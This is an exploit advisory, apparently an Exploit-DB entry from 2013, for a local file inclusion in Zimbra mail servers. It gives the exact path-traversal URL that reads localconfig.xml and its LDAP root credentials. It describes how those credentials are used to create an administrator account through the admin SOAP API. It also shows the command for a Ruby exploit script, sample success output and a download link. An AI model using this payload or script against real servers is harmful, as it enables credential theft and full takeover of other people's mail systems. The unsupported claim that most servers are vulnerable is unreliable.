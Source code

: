 # Exploit Title: Zimbra 0day exploit / Privilegie escalation via LFI
# Date: 06 Dec 2013
# Exploit Author: rubina119
# Contact Email : rubina119[at]gmail.com
# Vendor Homepage: http://www.zimbra.com/
# Version: 2009, 2010, 2011, 2012 and early 2013 versions are afected,
# Tested on: Centos(x), Ubuntu.
# CVE : No CVE, no patch just 0Day
# State : Critical

# Exploit-DB Mirror: https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/30085.zip (zimbraexploit_rubina119.zip)

---------------Description-----------------

This script exploits a Local File Inclusion in
/res/I18nMsg,AjxMsg,ZMsg,ZmMsg,AjxKeys,ZmKeys,ZdMsg,Ajx%20TemplateMsg.js.zgz
which allows us to see localconfig.xml
that contains LDAP root credentials wich allow us to make requests in
/service/admin/soap API with the stolen LDAP credentials to create user
with administration privlegies
and gain acces to the Administration Console.

LFI is located at :
/res/I18nMsg,AjxMsg,ZMsg,ZmMsg,AjxKeys,ZmKeys,ZdMsg,Ajx%20TemplateMsg.js.zgz?v=091214175450&skin=../../../../../../../../../opt/zimbra/conf/localconfig.xml%00

Example :

https://mail.example.com/res/I18nMsg,AjxMsg,ZMsg,ZmMsg,AjxKeys,ZmKeys,ZdMsg,Ajx%20TemplateMsg.js.zgz?v=091214175450&skin=../../../../../../../../../opt/zimbra/conf/localconfig.xml%00

or

https://mail.example.com:7071/zimbraAdmin/res/I18nMsg,AjxMsg,ZMsg,ZmMsg,AjxKeys,ZmKeys,ZdMsg,Ajx%20TemplateMsg.js.zgz?v=091214175450&skin=../../../../../../../../../opt/zimbra/conf/localconfig.xml%00


----------------Exploit-----------------


Before use this exploit, target server must have admin console port open
"7071" otherwise it won't work.

use the exploit like this :


ruby run.rb -t mail.example.com -u someuser -p Test123_23

[*] Looking if host is vuln....
[+] Host is vuln exploiting...
[+] Obtaining Domain Name
[+] Creating Account
[+] Elevating Privileges
[+] Login Credentials
    [*] Login URL : https://mail.example.com:7071/zimbraAdmin/
    [*] Account   : someuser@example.com
    [*] Password  : Test123_23
[+] Successfully Exploited !

The number of servers vuln are huge like 80/100.

This is only for educational purpouses.